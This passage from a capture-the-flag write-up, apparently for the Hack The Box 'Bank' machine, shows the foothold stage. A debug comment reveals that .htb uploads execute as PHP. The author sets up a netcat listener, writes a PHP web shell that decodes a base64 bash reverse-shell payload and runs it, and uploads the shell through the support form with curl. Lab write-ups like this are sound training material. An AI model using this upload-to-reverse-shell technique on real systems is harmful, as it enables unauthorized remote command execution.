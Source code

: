 It is! Unfortunately, if we browse to the file we just uploaded, we get an error
message indicating that the image contains errors.

I tried others extensions used to execute PHP code, but they're all blocked.

At this point, I checked the previous requests using Burp Suite for any hints.
And I found one in `/support.php`'s response body:

```html
<SNIP>
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
<SNIP>
```

It looks like what we were looking for!

## Foothold (File upload)

Since the website allows `.htb` files to be executed as PHP 'for debugging
purposes', and since we can upload our own files, we can get RCE on the server.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it as `revshell.htb`.

### Exploitation

Let's create a ticket with our PHP file as the attachment with our authorized
session:

```sh
❯ curl -s -o "/dev/null" -H "Cookie: HTBBankAuth=9eumasca9uda7rmlr8tn2eucs4" "http://bank.htb/support.php" -X "POST" -F "title=Revshell" -F "message=" -F "fileToUpload=@/workspace/revshell.htb" -F "submitadd="
```

Now, let's trigger our `revshell.htb` file!
